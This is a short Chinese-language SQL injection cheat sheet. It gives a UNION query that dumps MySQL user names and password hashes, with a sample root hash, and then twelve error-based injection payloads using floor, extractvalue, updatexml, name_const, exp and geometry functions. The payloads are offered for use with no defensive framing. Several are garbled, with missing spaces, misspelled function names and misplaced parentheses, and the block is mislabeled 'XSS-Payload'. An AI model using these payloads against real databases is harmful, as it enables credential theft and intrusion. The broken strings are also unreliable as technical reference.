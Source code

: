 **猜root用户**

```
1' union select 1,group_concat(user,password) from mysql.user#

得到root用户信息：

root*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

###### 2）报错注入

**XSS-Payload**

```
1、通过floor报错,注入语句如下:
and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2、通过ExtractValue报错,注入语句如下:
and (extractvalue(1,concat(0x7e,(select user()),0x7e)))

3、通过UpdateXml报错,注入语句如下:
and (updatexml(1,concat(0x7e,(select user()),0x7e),1))

4、通过NAME_CONST报错,注入语句如下:
and exists(selectfrom (selectfrom(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

5、通过join报错,注入语句如下:
select * from(select * from mysql.user ajoin mysql.user b)c;

6、通过exp报错,注入语句如下:
and exp(~(select * from (select user () ) a) );

7、通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );

8、通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );

9、通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );

10、通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );

11、通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );

12、通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
```
